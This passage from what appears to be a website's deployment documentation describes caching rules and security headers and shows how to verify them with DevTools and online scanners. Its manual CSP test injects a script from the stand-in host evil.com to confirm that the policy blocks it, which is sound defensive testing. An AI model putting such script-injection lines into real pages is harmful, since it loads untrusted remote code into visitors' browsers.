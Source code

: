 1. **index.html**: `Cache-Control: no-cache` (always fresh)
2. **Static assets** (*.js, *.css, etc.): `Cache-Control: public, max-age=31536000` (1 year)
3. **All routes** (`**`): Security headers (CSP, HSTS, etc.)

---

## Testing Security Headers

### Browser DevTools

**Check Headers:**
1. Open site in Chrome/Firefox
2. Press F12 → Network tab
3. Refresh page
4. Click on main document request (usually first row)
5. View Response Headers section

**Expected Headers:**
```
content-security-policy: default-src 'self' ...
strict-transport-security: max-age=31536000; includeSubDomains; preload
x-frame-options: SAMEORIGIN
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
referrer-policy: strict-origin-when-cross-origin
permissions-policy: geolocation=(self), camera=(), ...
```

### Online Security Scanners

**1. SecurityHeaders.com**
```
https://securityheaders.com/?q=https://sierrapainting.com
```
- Grades headers A-F
- Expected grade: **A** or **A+**

**2. Mozilla Observatory**
```
https://observatory.mozilla.org/analyze/sierrapainting.com
```
- Comprehensive security scan
- Expected score: **90+/100**

**3. SSL Labs**
```
https://www.ssllabs.com/ssltest/analyze.html?d=sierrapainting.com
```
- Tests SSL/TLS configuration
- Expected grade: **A** or **A+**

### Manual CSP Testing

**Test CSP blocks unauthorized scripts:**
```javascript
// Open browser console on site
// Try to inject script from unauthorized domain
var script = document.createElement('script');
script.src = 'https://evil.com/malicious.js';
document.body.appendChild(script);

// Expected: CSP violation error in console
// Refused to load the script 'https://evil.com/malicious.js' because it
// violates the following Content Security Policy directive: "script-src 'self' ..."
```

---